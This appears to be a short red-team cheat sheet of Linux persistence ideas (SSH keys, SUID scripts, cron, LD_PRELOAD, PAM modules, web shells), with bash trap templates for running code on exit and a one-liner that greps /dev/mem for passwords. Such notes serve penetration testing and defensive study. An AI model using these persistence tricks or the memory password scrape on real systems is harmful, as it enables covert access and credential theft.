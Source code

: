 ## Linux Persistence Ideas
```
	Add SSH keys
	Add SUID to world-writeable script (chmod u+s <file>)
	Add init script (reboot persistence)
	autostart
	bash profile/rc
	binary replacement
	Cron
	LD_PRELOAD
	LKM
	pam module
	shared library hijacking
	trap
	user addition
	web shell
```
https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/linux-index.md

### traps

File execution on clean exit
```
   tfile=/path/file
   trap "python $tfile" EXIT 
```

Command execution on clean exit
```
   # Additional cmds run above trap
   trap "some_cmd -switch" EXIT 
```

Command execution on CTRL-C
```
   trap "some_cmd -switch" SIGINT
   # Additional cmds run below trap 
```

Function execution on clean exit
```
    function testexec()
    {
    	Insert code here
    }
    trap testexec EXIT
```

## Linux PrivEsc

Passwords in mem (note this will likely trigger an alert)
```
    strings /dev/mem -n10 | grep -i PASS
```
